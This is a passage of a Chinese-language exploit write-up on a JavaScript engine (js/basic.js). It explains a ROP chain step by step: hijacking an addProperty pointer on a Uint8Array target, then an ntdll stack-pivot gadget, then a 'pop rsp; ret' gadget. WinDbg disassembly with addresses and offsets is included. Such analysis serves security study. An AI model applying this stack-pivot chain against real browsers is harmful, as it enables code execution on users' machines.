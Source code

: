 现在需要一个ROP链，basic.js中实现了一种可能：
- gadget #1， 覆盖addProperty指针（前面说的）
```
// ** gadget 0  **
// 0:000&gt; u 00007ff7`60ce5d80
// js!js::irregexp::RegExpLookahead::Accept [c:usersovermozilla-centraljssrcirregexpregexpast.cpp @ 40]:
// 00007ff7`60ce5d80 488b02          mov     rax,qword ptr [rdx]
// 00007ff7`60ce5d83 4c8bca          mov     r9,rdx
// 00007ff7`60ce5d86 488bd1          mov     rdx,rcx
// 00007ff7`60ce5d89 498bc9          mov     rcx,r9
// 00007ff7`60ce5d8c 48ff6040        jmp     qword ptr [rax+40h]
// 0:000&gt; ? 00007ff7`60ce5d80 - js
// Evaluate expression: 17325440 = 00000000`01085d80
//
```

这是开始的第一步， `Target.im_falling_and_i_cant_turn_back = 1`会调用addProperty，此时rdx和rbx中存的是指向Target地址的指针。因为Target的类型是Uint8Array，参考前文中类型结构可知gadget0的作用是跳转到Target的Inline data处。
- gadget #2， 存放在Target的inline data开始
```
//
// 0:000&gt; u ntdll+000bfda2 l10
// ntdll!TpSimpleTryPost+0x5aeb2:
// 00007fff`b8c4fda2 f5              cmc
// 00007fff`b8c4fda3 ff33            push    qword ptr [rbx]  &lt;= 关键语句1
// 00007fff`b8c4fda5 db4889          fisttp  dword ptr [rax-77h]
// 00007fff`b8c4fda8 5c              pop     rsp &lt;= 关键语句2
// 00007fff`b8c4fda9 2470            and     al,70h
// 00007fff`b8c4fdab 8b7c2434        mov     edi,dword ptr [rsp+34h]
// 00007fff`b8c4fdaf 85ff            test    edi,edi
// 00007fff`b8c4fdb1 0f884a52faff    js      ntdll!TpSimpleTryPost+0x111 (00007fff`b8bf5001) &lt;= 跳到下面
//
// 0:000&gt; u 00007fff`b8bf5001
// ntdll!TpSimpleTryPost+0x111:
// 00007fff`b8bf5001 8bc7            mov     eax,edi
// 00007fff`b8bf5003 488b5c2468      mov     rbx,qword ptr [rsp+68h]
// 00007fff`b8bf5008 488b742478      mov     rsi,qword ptr [rsp+78h]
// 00007fff`b8bf500d 4883c440        add     rsp,40h
// 00007fff`b8bf5011 415f            pop     r15
// 00007fff`b8bf5013 415e            pop     r14
// 00007fff`b8bf5015 5f              pop     rdi
// 00007fff`b8bf5016 c3              ret &lt;= 关键语句3
```

此时rbx是指向Target地址的指针，target地址入栈后又被弹出到rsp中，后面rsp增加0x40，又出栈三次，最后ret。所以运行完gadget #2之后，rip指向Target偏移0x58即Target[0x18]处
- gadget #3， 存放在Target的inline data开始0x18处
```
//
// 0x140079e55: pop rsp ; ret  ;  &lt;= 0x18
// BigRopChain address   &lt;= 0x20
```
